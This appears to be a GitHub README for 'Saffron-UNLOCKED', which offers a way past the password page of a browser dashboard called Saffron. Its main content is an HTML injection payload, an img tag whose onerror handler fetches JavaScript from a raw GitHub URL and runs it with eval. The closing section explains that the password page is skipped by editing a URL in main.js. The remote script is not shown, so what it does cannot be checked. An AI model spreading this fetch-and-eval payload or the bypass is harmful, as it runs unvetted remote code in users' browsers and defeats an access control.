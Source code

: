 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

## Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but __is easily skipped__ by changing URL in main.js from main.html to index.html - results in easy cracking and poor encryption
